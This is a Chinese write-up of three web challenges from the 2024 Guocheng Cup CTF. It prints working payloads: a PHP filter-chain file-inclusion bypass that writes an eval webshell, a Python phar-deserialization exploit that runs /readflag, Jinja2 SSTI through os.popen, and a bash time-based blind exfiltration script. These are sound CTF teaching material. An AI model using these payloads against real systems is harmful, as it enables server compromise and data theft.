










# 2024“国城杯”网络安全挑战大赛web方向部分wp-先知社区

> **来源**: https://xz.aliyun.com/news/16077  
> **文章ID**: 16077

---

# Signal

目录扫描得到 .index.php.swp

```
最近我朋友让我给他注册个账号，还想要在他的专属页面实现查看文件的功能。好吧，那就给他创个guest:MyF3iend,我是不可能给他我的admin账户的
```

WMCTF2020\_Web\_Checkin  
想起这个比赛，可以用二次url编码绕过

读到guest.php源码

```
<?php
session_start();
error_reporting(0);

if ($_SESSION['logged_in'] !== true || $_SESSION['username'] !== 'guest' ) {
    $_SESSION['error'] = 'Please fill in the username and password';
    header('Location: index.php');
    exit();
}

if (!isset($_GET['path'])) {
    header("Location: /guest.php?path=/tmp/hello.php");
    exit;
}

$path = $_GET['path'];
if (preg_match('/(\.\.\/|php:\/\/tmp|string|iconv|base|rot|IS|data|text|plain|decode|SHIFT|BIT|CP|PS|TF|NA|SE|SF|MS|UCS|CS|UTF|quoted|log|sess|zlib|bzip2|convert|JP|VE|KR|BM|ISO|proc|\_)/i', $path)) {
    echo "Don't do this";
}else{
    include($path);
}

?>
```

```
https://github.com/Shux1sh/guochengCTF/blob/main/creat_rce_chain.php
```

用这个生成php链子，然后去掉空格

```
https://github.com/Shux1sh/guochengCTF/blob/main/creat_payload.py
```

把结果放在text中,运行creat\_payload.py

```
get请求： 1=echo+PD9waHAgZXZhbCgkX1BPU1RbMV0pOzs/Pg%3d%3d|base64+-d>/var/www/html/1.php
```

写马



提权



# n0ob\_un4er

题目源码

```
<?php
$SECRET  = `/readsecret`;
include "waf.php";
class User {
    public $role;
    function __construct($role) {
        $this->role = $role;
    }
}
class Admin{
    public $code;
    function __construct($code) {
        $this->code = $code;
    }
    function __destruct() {
        echo "Admin can play everything!";
        eval($this->code);
    }
}
function game($filename) {
    if (!empty($filename)) {
        if (waf($filename) && @copy($filename , "/tmp/tmp.tmp")) {
            echo "Well done!";
        } else {
            echo "Copy failed.";
        }
    } else {
        echo "User can play copy game.";
    }
}
function set_session(){
    global $SECRET;
    $data = serialize(new User("user"));
    $hmac = hash_hmac("sha256", $data, $SECRET);
    setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
}
function check_session() {
    global $SECRET;
    $data = $_COOKIE["session-data"];
    list($data, $hmac) = explode("-----", $data, 2);
    if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac) || !hash_equals(hash_hmac("sha256", $data, $SECRET), $hmac)) {
        die("hacker!");
    }
    $data = unserialize($data);
    if ( $data->role === "user" ){
        game($_GET["filename"]);
    }else if($data->role === "admin"){
        return new Admin($_GET['code']);
    }
    return 0;
}
if (!isset($_COOKIE["session-data"])) {
    set_session();
    highlight_file(__FILE__);
}else{
    highlight_file(__FILE__);
    check_session();
}
```

cookie值

```
O:4:"User":1:{s:4:"role";s:4:"user";}-----73967a08e10d364c31bb90861b4d2559a9def457069da89811116f983f42e224
```

发现usr可以传一个filename

我们不知道$SECRET变量

不知道能不能读文件呢？

现在的思路是

伪造$secret或者用copy读phar文件反序列化触发admin的eval

phar文件，找到两道原题

LCTF 2018的T4lk 1s ch34p,sh0w m3 the sh31l

hitcon2017-Baby-H-master-php-2017

<https://blog.pr0ph3t.com/posts/hitcon2017-Baby-H-master-php-2017-%E5%A4%8D%E7%8E%B0/>


copy函数好像可以任意文件下载，但是前面有个waf.php，不知道怎么绕过去

但是这里也远程包含不了，奇怪啊

```
/var/www/html/waf.php
/var/www/html/index.php
这样子都可以well done就是成功读取到

但是
/tmp/tmp.tmp
/etc/passwd都是失败的
```

看到一篇能够伪造签名的wp

```
https://coomrade.github.io/2018/11/20/LCTF2018-writeup/
```



这里说是可以伪造的，但是实际上我也伪造不成功

这里卡住了就等赛后wp复现

## wp复现

wp

<https://www.cnblogs.com/Litsasuk/articles/18593334>

看了wp才知道phar文件还可以转成字符串利用过滤器来写入，tql！！！

phar转字符串文章

```
https://blog.diggid.fun/2021/05/30/Laravel-8-Debug-Mode-RCE-%E6%8B%93%E5%B1%95%E4%B8%8E%E8%B8%A9%E5%9D%91/#payload%E6%80%BB%E7%BB%93
```

生成phar文件

```
<?php
highlight_file(__FILE__);
class Admin{
    public $code;
}
@unlink('test.phar');
$phar=new Phar('test.phar');
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$o=new Admin();
$o ->code="system('/readflag');";
$phar->setMetadata($o);
$phar->addFromString("test.txt","test");
$phar->stopBuffering();
?>
```

编码phar文件

```
cat test.phar | base64 -w0 | python3 -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
```

这里其实最关键的就是编码，选择不同的编码器会造成字符不同的影响

就是如果我们要先进行3次base64解码来消去垃圾数据，那么我们编码后的phar文件就还需要连续进行3次base64编码，由于base64解码的特性，如果被解码的字符串中出现了"="就会解码失败，所以我们还要对payload填充一下位数，使之连续3次base64编码都不会出现"=",就需要满足位数为3^3的倍数

这里出题人wp和题目啥的都挺清晰的，贴个自己写的python脚本

```
import sys
import requests
HOST = 'http://125.70.243.22:31285/'
sess_name = 'shushu'

headers = {
    'Connection': 'close',
    'Cookie': 'PHPSESSID=' + sess_name
}
payload = "VUZSVmQxQlVRWGRRVkZFd1VGUkJkMUJVVFRWUVZFRjNVRlJqTTFCVVFYZFFWRmw0VUZSQmQxQlVVVFJRVkVGM1VGUlJlRkJVUVhkUVZGa3pVRlJCZDFCVVZUUlFWRUYzVUZSTmVGQlVRWGRRVkUwMVVGUkJkMUJVVVRWUVZFRjNVRlJWZUZCVVFYZFFWRlV4VUZSQmQxQlVZelJRVkVGM1VGUlZNVkJVUVhkUVZGVTBVRlJCZDFCVVRYZFFWRUYzVUZSU1JsQlVRWGRRVkZWM1VGUkJkMUJVVlRCUVZFRjNVRlJWTWxCVVFYZFFWRkY1VUZSQmQxQlVVa0pRVkVGM1VGUlZNRkJVUVhkUVZGRXhVRlJCZDFCVVZUSlFWRUYzVUZSVmVsQlVRWGRRVkZKRFVGUkJkMUJVVVhwUVZFRjNVRlJhUTFCVVFYZFFWRTB6VUZSQmQxQlVVVFZRVkVGM1VGUlJNRkJVUVhkUVZFMDBVRlJCZDFCVVNrTlFWRUYzVUZSUk1GQlVRWGRRVkZWNFVGUkJkMUJVWTNkUVZFRjNVRlJqTUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSVmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY1VUZSQmQxQlVVVEZRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSTmVsQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVWVEJRVkVGM1VGUmtRbEJVUVhkUVZGcEhVRlJCZDFCVVRYaFFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJSZVZCVVFYZFFWRlpDVUZSQmQxQlVVVE5RVkVGM1VGUk5lRkJVUVhkUVZHTjNVRlJCZDFCVVdYbFFWRUYzVUZSWk5WQlVRWGRRVkZFMVVGUkJkMUJVVFRKUVZFRjNVRlJTUlZCVVFYZFFWRlV3VUZSQmQxQlVZM2RRVkVGM1VGUk5NMUJVUVhkUVZGbDZVRlJCZDFCVVpFSlFWRUYzVUZSYVIxQlVRWGRRVkUxM1VGUkJkMUJVVWtkUVZFRjNVRlJaTlZCVVFYZFFWRkpDVUZSQmQxQlVXa0pRVkVGM1VGUlplVkJVUVhkUVZFMTVVRlJCZDFCVVZYbFFWRUYzVUZSYVJGQlVRWGRRVkZFMVVGUkJkMUJVV2tKUVZFRjNVRlJqTUZCVVFYZFFWR1JDVUZSQmQxQlVVa2RRVkVGM1VGUmFRbEJVUVhkUVZGRTFVRlJCZDFCVVl6TlFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJrUWxCVVFYZFFWRmt4VUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVZrSlFWRUYzVUZSVk0xQlVRWGRRVkUxM1VGUkJkMUJVV2tkUVZFRjNVRlJTUWxCVVFYZFFWR00xVUZSQmQxQlVUVFZRVkVGM1VGUmpOVkJVUVhkUVZGWkNVRlJCZDFCVVZUTlFWRUYzVUZSUk1sQlVRWGRRVkZwRFVGUkJkMUJVVmtKUVZFRjNVRlJhUlZCVVFYZFFWR00wVUZSQmQxQlVXVFJRVkVGM1VGUldRbEJVUVhkUVZHTTFVRlJCZDFCVVdYcFFWRUYzVUZSamQxQlVRWGRRVkZKSFVGUkJkMUJVWXpWUVZFRjNVRlJSTlZCVVFYZFFWRTB6VUZSQmQxQlVXVEpRVkVGM1VGUlZlRkJVUVhkUVZGa3pVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhsUVZFRjNVRlJOZDFCVVFYZFFWRlpDVUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVVrUlFWRUYzVUZSYVJsQlVRWGRRVkZWNVVGUkJkMUJVVFRCUVZFRjNVRlJaTUZCVVFYZFFWRkY0VUZSQmQxQlVWWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk1GQlVRWGRRVkZrd1VGUkJkMUJVVlRSUVZFRjNVRlJSZVZCVVFYZFFWR013VUZSQmQxQlVXa1pRVkVGM1VGUlJlVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJqTkZCVVFYZFFWRXBEVUZSQmQxQlVXVEpRVkVGM1VGUk5OVkJVUVhkUVZGazFVRlJCZDFCVVRYbFFWRUYzVUZSUmVGQlVRWGRRVkZWNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk5GQlVRWGRRVkZWNVVGUkJkMUJVV2tSUVZFRjNVRlJaZWxCVVFYZFFWRTE2VUZSQmQxQlVWWGxRVkVGM1VGUlNRbEJVUVhkUVZGVjVVRlJCZDFCVVVrZFFWRUYzVUZSTmQxQlVRWGRRVkdNeVVGUkJkMUJVVlRWUVZFRjNVRlJqTVZCVVFYZFFWRkpEVUZSQmQxQlVUVEZRVkVGM1VGUk5NVkJVUVhkUVZGSkNVRlJCZDFCVVRYcFFWRUYzVUZSV1FsQlVRWGRRVkdONVVGUkJkMUJVU2tOUVZFRjNVRlJSTkZCVVFYZFFWR04zVUZSQmQxQlVUVEJRVkVGM1VGUk5NMUJVUVhkUVZGRXlVRlJCZDFCVVVrTlFWRUYzVUZSWk5GQlVRWGRRVkZwSFVGUkJkMUJVVlRCUVZFRjNVRlJaTWxCVVFYZFFWRkV6VUZSQmQxQlVZek5RVkVGM1VGUlJOVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVRSUVZFRjNVRlJWZUZCVVFYZFFWRnBEVUZSQmQxQlVUWGhRVkVGM1VGUlJlbEJVUVhkUlZVWkNVVlZHUWxGVlJrSlJWVVpD"
response = requests.get(HOST, headers=headers)
cookies = response.cookies
data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + payload
    }

fp = open('/etc/passwd', 'rb')
r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
fp.close()

file = '/tmp/sess_' + sess_name
filename = 'php://filter/read=convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=%s' % file
url = '%s?filename=%s' % (HOST, filename)
r2 = requests.get(url, cookies=cookies)
c = r2.content
filename = 'phar:///tmp/tmp.tmp/test.txt'
url = f'{HOST}?filename={filename}'
r3 = requests.get(url, cookies=cookies)
content = r3.text
if "D0g3" in content:
    start_index = content.index("D0g3")
    output = content[start_index:]
    print(output)
    sys.exit(0)
```

好菜

# Ez\_Gallery

这是一题ssti注入+bash盲注的题目

## 任意文件读取



登陆

```
admin
123456
```

```
http://125.70.243.22:31462/info?file=/etc/passwd
```



发现有个任意文件读取的漏洞

```
http://125.70.243.22:31462/info?file=../../app.py
```

读到源码,整理一下格式

```
import jinja2
from pyramid.config import Configurator
from pyramid.httpexceptions import HTTPFound
from pyramid.response import Response
from pyramid.session import SignedCookieSessionFactory
from wsgiref.simple_server import make_server
from Captcha import captcha_image_view, captcha_store
import re
import os

class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password

users = {"admin": User("admin", "123456")}

def root_view(request):
    # 重定向到 /login
    return HTTPFound(location='/login')

def info_view(request):
    # 查看细节内容
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    file_name = request.params.get('file')
    file_base, file_extension = os.path.splitext(file_name)
    if file_name:
        file_path = os.path.join('/app/static/details/', file_name)
        try:
            with open(file_path, 'r', encoding='utf-8') as f:
                content = f.read()
                print(content)
        except FileNotFoundError:
            content = "文件未找到。"
    else:
        content = "未提供文件名。"

    return {'file_name': file_name, 'content': content, 'file_base': file_base}

def home_view(request):
    # 主路由
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    detailtxt = os.listdir('/app/static/details/')
    picture_list = [i[:i.index('.')] for i in detailtxt]
    file_contents = {}
    for picture in picture_list:
        with open(f"/app/static/details/{picture}.txt", "r", encoding='utf-8') as f:
            file_contents[picture] = f.read(80)

    return {'picture_list': picture_list, 'file_contents': file_contents}

def login_view(request):
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        user_captcha = request.POST.get('captcha', '').upper()

        if user_captcha != captcha_store.get('captcha_text', ''):
            return Response("验证码错误，请重试。")
        user = users.get(username)
        if user and user.password == password:
            request.session['username'] = username
            return Response("登录成功！<a href='/home'>点击进入主页</a>")
        else:
            return Response("用户名或密码错误。")
    return {}

def shell_view(request):
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*',r'.*\..*',r'.*soft.*',r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result != None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')


def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')  # 添加渲染模板
        config.add_static_view(name='static', path='/app/static')
        config.set_default_permission('view')  # 设置默认权限为view

        # 注册路由
        config.add_route('root', '/')
        config.add_route('captcha', '/captcha')
        config.add_route('home', '/home')
        config.add_route('info', '/info')
        config.add_route('login', '/login')
        config.add_route('shell', '/shell')
        # 注册视图
        config.add_view(root_view, route_name='root')
        config.add_view(captcha_image_view, route_name='captcha')
        config.add_view(home_view, route_name='home', renderer='home.pt', permission='view')
        config.add_view(info_view, route_name='info', renderer='details.pt', permission='view')
        config.add_view(login_view, route_name='login', renderer='login.pt')
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')

        config.scan()
        app = config.make_wsgi_app()
        return app


if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()
```

发现这个

```
config.add_view(shell_view, route_name='shell', renderer='string', permission='view')
```

即在/shell路由调用了一个shell\_view方法

```
def shell_view(request):
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*',r'.*\..*',r'.*soft.*',r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result != None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')
```

利用shellcmd进行get传参实现ssti注入，但是有过滤

黑名单

```
blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*',r'.*\..*',r'.*soft.*',r'.*%.*']
```

同时只会返回success或者error。

## ssti

过滤了点号和数字

网上有现成的payload直接用

```
https://hetian.blog.csdn.net/article/details/111399386?fromshare=blogdetail&sharetype=blogdetail&sharerId=111399386&sharerefer=PC&sharesource=git_clone&sharefrom=from_link
```

```
{{lipsum|attr("__globals__"))|attr("__getitem__")("os")|attr("popen")("whoami")|attr("read")}}
```

整理一下

```
{{(lipsum|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('whoami'))|attr('read')()}}
```

回显success

## bash时间盲注

### 绕过数字

```
$(echo ABCD | wc -m)
```

此时输出5

这里发现在Linux可以利用这样的方法输出数字，但是有个坑后面要考

一开始用wc命令是用-c参数

两者区别

假设文件 `test.txt` 内容如下：

```
Hello 你好
```

* `wc -m` 输出的是字符数：**7**（`Hello` 5 个字符，`你好` 2 个字符）。
* `wc -c` 输出的是字节数：**13**（在 UTF-8 编码中，`你好` 这两个汉字每个字符占用 3 个字节，所以总字节数是 13）。

所以实际上我们用-m参数会更精准一点，

### if条件

```
if [ 判断条件 ]
then 
  sleep 2
fi
```

我们利用上面这个来进行条件判断

### 变量存储

发现bash可以通过执行命令来给变量赋值，然后再将变量放到条件中进行判断是否符合条件

### cut命令

```
cut -c [range] [file]
```

我们可以利用这个来截取字符串进行判断

```
if [ `echo $a|cut -c $(echo B | wc -m)` = "a" ]
```

比如说，这里的意思是，将$a存储输出，然后给cut截取，但是数字要绕过。如果该第二位是a则返回真

这里是2不是1也不是0，这个就是坑点



## payload

于是我们就可以构思出我们的脚本了

```
import string
import requests
import time
a=''
url = 'http://125.70.243.22:31462/shell'
cookies = {"session":"I4tiZVB2Ta5DNRID3WMauUNYWoR72h7NHHROR6mw6odXP_IPuLQW7xTtmJ1qr-ToNXTulB6n84dn98j5phvBt1sxNzMzNjU3OTYxLCAxNzMzNTUxNTUxLjIwNzgxNSwgeyJ1c2VybmFtZSI6ICJhZG1pbiJ9XQ"}
#指定字符集
s = string.ascii_letters+"{"+"}"+"_"+"-"+"0"+"1"+"2"+"3"+"4"+"5"+"6"+"7"+"8"+"9"
flag=''
for j in range(0,50):#flag的长度大小
    position='B'*j
    print(len(position))
    for i in s:
        params = {
            "shellcmd": "{{(lipsum|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('a=`ls /` && if [ `echo $a|cut -c $(echo " + position + " | wc -m)` = \"" + i + "\" ]\nthen\n\tsleep $(echo ABCDE | wc -m)\nfi'))|attr('read')()}}"
        }
        if i == "1" or i == "2" or i == "3" or i == "4" or i == "5" or i == "6" or i == "7" or i == "8" or i == "9":
            a = "$(echo " + "B" * (int(i)-1) + " | wc -m)"
            params = {
                "shellcmd": "{{(lipsum|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('a=`/readflag` && if [ `echo $a|cut -c $(echo " + position + " | wc -m)` = \"" + a + "\" ]\nthen\n\tsleep $(echo ABCDE | wc -m)\nfi'))|attr('read')()}}"
            }
        start_time = time.time()
        # 发送 GET 请求
        if i=="4":
            print(params["shellcmd"])
        response = requests.get(url, cookies=cookies, params=params)
        # 计算响应时间
        elapsed_time = time.time() - start_time
        print(f"Response for {i}: {response.text}")
        print(f"Time taken for {i}: {elapsed_time:.2f} seconds\n")
        if elapsed_time > 3 :
            flag+=i
            print(flag)
            break
        if i=="9":
            flag+="0"
        print(flag)
```



```
app3bin0dev0etc0flag9home0lib0media0mnt0opt0proc0r
```

长度断了没跑完，我们继续



```
eadflag0root0run0sbin0srv0sys0
```

合起来就是

```
app3bin0dev0etc0flag9home0lib0media0mnt0opt0proc0readflag0root0run0sbin0srv0sys0
```

那么我们可以直接执行/readflag

```
a=`/readflag`
```

崩溃



列出根目录

最后成功跑出flag


